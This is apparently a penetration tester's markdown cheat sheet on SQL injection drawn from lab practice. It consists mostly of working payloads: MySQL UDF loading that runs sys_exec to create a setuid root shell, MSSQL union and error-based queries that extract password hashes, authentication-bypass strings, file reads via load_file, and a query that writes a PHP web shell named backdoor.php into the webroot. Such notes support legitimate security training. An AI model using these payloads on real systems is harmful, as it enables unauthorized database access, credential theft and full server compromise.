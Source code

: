 
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/

http://www.securityidiots.com/Web-Pentest/SQL-Injection

https://www.tarlogic.com/en/blog/red-team-tales-0x01/


## PostGres Command Exec if Auth
https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5

## UDF
https://www.exploit-db.com/docs/english/44139-mysql-udf-exploitation.pdf?rss

or PWK

Can transfer udf so via hex.
Dump with xxd
```
xxd -p lib_mysqludf_sys.so | tr -d '\n' > lib_mysqludf_sys.so.hex
```
then set variable
```
set @shell = 0x7f454c4602010100000000000000000003003e000100000000110000000000004000000000000000e03b 0000000000000000000040003800090040001c001b000100000004000000000000...00000000000000000 000;
```

Full is below. Must place in plugin_dir
```
select @@plugin_dir
select binary 0xshellcode into dumpfile @@plugin_dir;
create function sys_exec returns int soname udf_filename;
select * from mysql.func where name='sys_exec' \G
select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh')
```




## Classic Union

MSSQL
```
' union select (SELECT name FROM master..sysdatabases for xml path('')),2--
```
## Auth Bypass

MySQL
```
tom' or 1=1;#
tom' or 1=1-- MAKE SURE SPACE IS AFTER
tom' or '1'='1'-- 
```

## Column enumeration
```
id=1 order by 1
```
increase order until error to know how many columns

then you can union
```
id=1 union all select 1, 2, 3
```
see which ones show up on the page and then use that to get stuff
```
id=1 union all select 1, 2, @@version
```


## MSSQL Error Based
```
For integer inputs : convert(int,@@version)
For integer inputs : cast((SELECT @@version) as int)

For string inputs   : ' + convert(int,@@version) + '
For string inputs   : ' + cast((SELECT @@version) as int) + '
```
https://www.exploit-db.com/papers/12975
https://www.exploit-db.com/docs/english/44348-error-based-sql-injection-in-order-by-clause-(mssql).pdf

If convert isn't working try having, group by or order by
```
' HAVING 1=1;-- 
This got me tablename and column of
users.username

' GROUP BY users.username HAVING 1=1;--
ok this got me users.password_hash

' GROUP BY users.username,users.password_hash HAVING 1=1--
this got nothing theres only those 2 columns
```

## Assign column name to variable

Create table to use with column name of "col1"
```
'; create table arvin(col1 varchar(255));--
```
Declare var and replace column name with query
```
'; declare @column1 varchar(255); set @column1 = (select top 1 password_hash from users); EXEC sp_rename 'arvin.col1', @column1, 'COLUMN';-- 
```
Get the goods
```
select * from arvin where 1=1 having 1=1;
```


## Random tries

```
select * from users where name = 'tom' or 1=1 LIMIT 1;#

order results in 1 or more columns?
use to figure out how many columns in a table
http://10.11.0.22/debug.php?id=1 order by 1

shows which columns are displayed on page
http://10.11.0.22/debug.php?id=1 union all select 1, 2, 3

now version will show in 3
http://10.11.0.22/debug.php?id=1 union all select 1, 2, @@version

now user will show in 3
http://10.11.0.22/debug.php?id=1 union all select 1, 2, user()

get info from database through information schema table
 http://10.11.0.22/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables

["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,table_name,11 FROM information_schema.tables#"]

get all column names from user table

 http://10.11.0.22/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'



get username and password
http://10.11.0.22/debug.php?id=1 union all select 1, username, password from users

try to read
192.168.146.10/debug.php?id=1 union all select 1, 2, load_file('c:/windows/system32/drivers/etc/hosts')

write out
 http://10.11.0.22/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'

http://10.11.1.73:8080/PHP/index.php?tg=delegat&idx=mem&id=1%20UNION%20ALL%20SELECT%201,2
```


